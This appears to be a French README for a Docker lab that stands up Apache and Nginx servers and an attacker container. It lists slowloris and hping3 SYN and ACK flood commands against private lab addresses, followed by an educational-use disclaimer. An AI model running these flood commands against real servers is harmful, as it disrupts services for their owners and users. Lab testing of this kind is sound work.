 # DDoS Attack Simulation Tool

Ce projet met à disposition une collection d'outils performants de simuler des attaques DDoS sur des serveurs Apache et Nginx. 
Ces outils s'avèrent précieux pour les tests et l'évaluation de la sécurité des infrastructures web.

## Prérequis

- Docker et Docker Compose doivent être installés sur votre machine.

## Utilisation

1. Construction et exécution des conteneurs

```bash
docker-compose -f stack.yml up -d --build

# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

2. Attaques HTTP Flood

- Attaque Slowloris contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

- Attaque Slowloris contre le serveur Nginx

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

3. Attaques SYN Flood

- Attaque SYN Flood contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque SYN Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

4. Attaques ACK Flood

- Attaque ACK Flood contre le serveur Apache
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque ACK Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

5. Arrêt et suppression des conteneurs
```bash
docker-compose -f stack.yml down
```

## Avertissement
Ce projet est uniquement destiné à des fins éducatives et de test. L'utilisation de ces outils contre des systèmes sans autorisation est illégale.

## Auteur
Ahmed MEMAR

Email : ahmedmeamar7@gmail.Com

## Licence

Ce projet est sous licence MIT. Voir le fichier LICENSE pour plus de détails.
 
